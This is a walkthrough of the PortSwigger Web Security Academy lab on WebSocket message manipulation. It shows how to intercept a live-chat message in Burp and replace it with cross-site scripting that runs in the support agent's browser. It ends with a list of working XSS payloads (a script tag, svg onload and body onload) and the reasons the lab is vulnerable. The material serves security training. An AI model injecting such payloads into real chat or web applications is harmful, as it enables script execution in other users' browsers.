





# PortSwigger Lab: Manipulating WebSocket messages to exploit vulnerabilities

**Platform:** PortSwigger Web Security Academy  
**Difficulty:** Easy  
**Type:** WebSocket Security  
**Objective:** Inject XSS into WebSocket to trigger alert() in support agent's browser

---

## Attack Flow

```
Live chat (WebSocket) → Send message
→ Intercept WebSocket in Burp
→ Change payload to XSS
→ Forward manipulated message
→ Server broadcasts to agent
→ alert() executed
```

---

## 1. Main Page


Online store with navigation: Home | My account | Live chat

---

## 2. Live Chat Interface



```
System: No chat history on record
CONNECTED: -- Now chatting with Hal Pline --

Your message: [input field]
```

The chat connects with support agent in real-time.

---

## 3. WebSocket Message Capture



When sending "hi", captured in Burp WebSocket history:

```json
{
  "message": "hi"
}
```

The message is sent via WebSocket.

---

## 4. WebSocket Intercept



Enable intercept for WebSocket:

1. Proxy → Options → WebSocket history
2. Proxy → Intercept → Intercept WebSocket Frames

When sending message, it's captured before reaching the server.

---

## 5. XSS Payload Injected



Change:

```json
{
  "message": "hi"
}
```

To:

```json
{
  "message": ""
}
```

Forward the modified message.

---

## 6. Result: Alert Executed



The support agent's browser executes `alert(1)`.

Message in chat:

```
You:         hi
Hal Pline:   Does your mom know you're still up?
You:         hi
Hal Pline:   Just stop asking questions and let me out of this tiny box!
[ALERT POPUP] 1
```

---

## 7. Lab Completed


---

## Why It Works

- No validation of WebSocket content
- Server trusts client messages
- Direct HTML rendering
- XSS executes in agent's browser
- No Content Security Policy

---

## HTTP vs WebSocket Comparison

| Aspect | HTTP | WebSocket |
|--------|------|-----------|
| Protocol | Request-Response | Bidirectional |
| Intercept | Easy (default) | Requires activation |
| Manipulation | URL/body | JSON |
| Propagation | Single response | Real-time broadcast |

---

## Alternative Payloads

```html
<!-- Simple alert -->


<!-- Script tag -->
<script>alert(1)</script>

<!-- SVG -->
<svg onload='alert(1)'>

<!-- Body -->
<body onload='alert(1)'>
```

All work without validation.

---

## References

- [PortSwigger — WebSocket](https://portswigger.net/web-security/websockets)
- [OWASP — XSS Prevention](https://owasp.org/www-community/attacks/xss/)
- [MDN — WebSocket API](https://developer.mozilla.org/en-US/docs/Web/API/WebSocket)
- [XSS Prevention](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
